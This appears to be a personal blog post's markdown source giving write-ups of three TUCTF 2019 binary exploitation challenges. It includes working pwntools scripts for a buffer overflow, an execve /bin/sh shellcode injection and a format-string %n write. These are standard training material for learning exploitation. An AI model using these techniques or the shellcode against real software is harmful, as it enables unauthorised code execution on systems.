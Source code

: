 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "TUCTF 2019 - Pwn Challenges"
author: "Shreyansh Singh"
date: 2019-12-02T19:39:57+05:30
lastmod: 2019-12-02T19:39:57+05:30
featured: false
draft: false

description: ""

subtitle: "My writeups for some of the PWN challenges of TUCTF 2019."

tags: [ctf, information security, infosec, writeups]
categories: [Information Security]


# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: "TU CTF 2019"
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```



I couldn't give much time to the CTF because of some college work, but I gave a shot at the PWN challenges. The challenges became offline later but I still decided to work on the exploit scripts to make them work locally.

---

## thefirst - 379 pts

We can see in the image below that `gets` is being used to take the input. Hence it can be exploited for _buffer overflow_. First, using GDB (with GEF), we find that the offset required to overflow the buffer is 24.

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/thefirst_1.png" caption="Disassembly of main" >}}

This can be done using `pattern create 50` and then using that pattern to find the crash offset.

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/gef_1.png" >}}

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/gef_2.png" >}}

Also inspecting the functions, we see that there is a `printFlag` function at 0x80491f6. So, our objective is to jump there.

The following script is the exploit.

```python
from pwn import *

p = process("./thefirst")
# p = remote("chal.tuctf.com", 30508)
print_flag_addr = 0x80491f6
offset = 20

payload = "A"*offset
payload += "BBBB"
payload += p32(print_flag_addr)

f = open('payload', 'wb')
f.write(payload)
f.close()

p.recvuntil('> ')
p.sendline(payload)

p.interactive()
```

---

## shellme32 - 462 pts

On running the program, we are given an address and we have to provide some input. On analysing it using GDB, and using `vmmap`, we find that the adress given to us is that of the stack and the stack is read, write and executable. 

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/shellme32_1.png" >}}

We use [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php) to get the shellcode. First we get the offset of the crash like before. In the script below, we use the shellcode, pad it with 'A's and then provide the address to write to, i.e. the adress provided to us.

```python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
len_shell_code = 28

from pwn import *
# context.log_level = 'debug'
p = process("./shellme32")

offset = 40


p.recvuntil('?\n')
addr = int(p.recvline().strip(), 16)
p.recvuntil('> ')

log.info('Stack Address: ' + str(hex(addr)))

payload = shellcode
payload += "A"*(offset - len_shell_code)

payload += p32(addr)

print(len(shellcode))
p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

---

## printfun - 500 pts

Here, on analysing with Ghidra, we find that there is a format string vulnerability.

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/printfun_1.png" >}}

So, here first we use GDB to get the addresses of the two buffers being compared. Also, as input if we provide `"%x %x %x %x %x %x %x %x %x %x %x %x %x %x"`, for the instance running on GDB we get this output -

`5655a050 3c 14 1 ffffc994 5655a050 5655a008 ffffc900 0 0 f7e06637 f7fa0000 f7fa0000 0`

On seeing the values displayed by GDB, we see two addresses - `0x5655a008` and `0x5655a050`

{{< figure src="/post/2019-12-02_tuctf-pwn-2019/images/printfun_2.png" >}}

This is intereting as both these addresses are also present in the program's output with our input.

So, all we have to do is overwrite the 6th and 7th "addresses" of the output to the same value so that the string comparison passes.

We write the following exploit code, which works locally. I hope it would work remotely as well (but no way to test it now :frowning_face:) -

```python
from pwn import *

p = process("printfun")

payload = "AAAA%6$n%7$n"

p.sendlineafter('? ', payload)

p.interactive()
```

That's all for now :wave:.

I'm working on a few more of the PWN challenges and also on the REV ones which I found very interesting. Will be posting their writeups too.